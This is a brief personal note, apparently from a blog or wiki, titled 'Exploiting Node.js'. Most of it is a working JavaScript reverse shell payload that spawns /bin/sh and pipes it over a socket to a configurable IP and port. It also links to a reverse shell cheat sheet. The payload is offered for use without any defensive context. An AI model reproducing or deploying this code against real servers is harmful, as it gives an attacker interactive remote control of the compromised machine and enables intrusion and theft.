 # Exploiting Node.js

**author**:: Nathan Acks  
**date**:: 2021-10-09

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		// Customize port and IP address above to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
